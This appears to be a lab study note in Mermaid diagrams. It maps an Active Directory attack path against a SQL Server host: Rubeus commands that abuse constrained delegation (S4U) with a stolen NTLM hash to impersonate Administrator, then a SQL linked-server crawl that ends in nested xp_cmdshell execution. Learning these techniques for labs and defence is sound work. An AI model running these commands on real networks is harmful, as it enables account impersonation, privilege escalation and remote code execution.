


# dcorp-mssql — Constrained Delegation S4U2Proxy & SQL Link Chain

## Attack Path

```mermaid
flowchart TD
    START(["🔑 websvc creds\n(NTLM hash extracted\nfrom dcorp-adminsrv)"])

    subgraph constrained["Path A: Constrained Delegation S4U2Proxy → dcorp-mssql"]
        CD1["websvc configured with\nConstrained Delegation\nto CIFS/dcorp-mssql"]
        CD2["Enumerate constrained delegation\nGet-DomainUser -TrustedToAuth\nGet-ADObject -Filter {msDS-AllowedToDelegateTo -ne '$null'}"]
        CD3["S4U2Self: Get TGS for websvc\nRubeus.exe asktgt\n/user:websvc /rc4:HASH /domain:dollarcorp.moneycorp.local\n/dc:dcorp-dc.dollarcorp.moneycorp.local"]
        CD4["S4U2Proxy: Request TGS for DA\nRubeus.exe s4u /ticket:TGT\n/impersonateuser:Administrator\n/msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local\n/ptt"]
        CD5["✅ Administrator TGS for\nCIFS/dcorp-mssql\nInjected into session"]
        CD6["Access dcorp-mssql as Administrator\ndir \\\\dcorp-mssql\\c$\nPsExec \\\\dcorp-mssql"]
    end

    subgraph sqllink["Path B: SQL Linked Server Chain"]
        SQL1["Connect to dcorp-mssql\nGet-SQLInstanceDomain\nInvoke-SQLaudit\nGet-SQLQuery -Instance dcorp-mssql\n-Query 'SELECT @@version'"]
        SQL2["Enumerate linked servers\nSELECT * FROM sys.servers\nGet-SQLServerLinkCrawl"]
        SQL3["dcorp-mssql → dcorp-sql1 (link)\ndcorp-sql1 → dcorp-mgmt (link)\ndcorp-mgmt → eu-sqlx (link)"]
        SQL4["Execute xp_cmdshell through chain\nEXEC ('EXEC (''xp_cmdshell ''''whoami'''''' '') AT dcorp-sql1') AT dcorp-mssql"]
        SQL5["✅ Code execution on\neu-sqlx via SQL links"]
    end

    START --> CD1 --> CD2 --> CD3 --> CD4 --> CD5 --> CD6
    CD6 --> SQL1
    SQL1 --> SQL2 --> SQL3 --> SQL4 --> SQL5

    style START fill:#4CAF50,color:#fff
    style CD5 fill:#FF9800,color:#fff
    style CD6 fill:#FF9800,color:#fff
    style SQL5 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-mssql))
    Constrained Delegation
      websvc account
        Configured for CIFS/dcorp-mssql
        Has TrustedToAuth flag
      Enumerate
        Get-DomainUser -TrustedToAuth
        msDS-AllowedToDelegateTo attr
      S4U Attack
        S4U2Self
          Get TGS as websvc
          Rubeus asktgt
        S4U2Proxy
          Impersonate Administrator
          Get TGS for CIFS/dcorp-mssql
          Rubeus s4u /impersonateuser
        Result
          Admin TGS injected
          Access CIFS share as DA
    SQL Server
      Discovery
        Get-SQLInstanceDomain
        Invoke-SQLaudit
      Linked Servers
        dcorp-mssql
        dcorp-sql1
        dcorp-mgmt
        eu-sqlx
      xp_cmdshell
        Enable if needed
        Execute OS commands
        Nested EXEC syntax
      PowerUpSQL
        Get-SQLServerLinkCrawl
        Invoke-SQLEscalatePriv
```
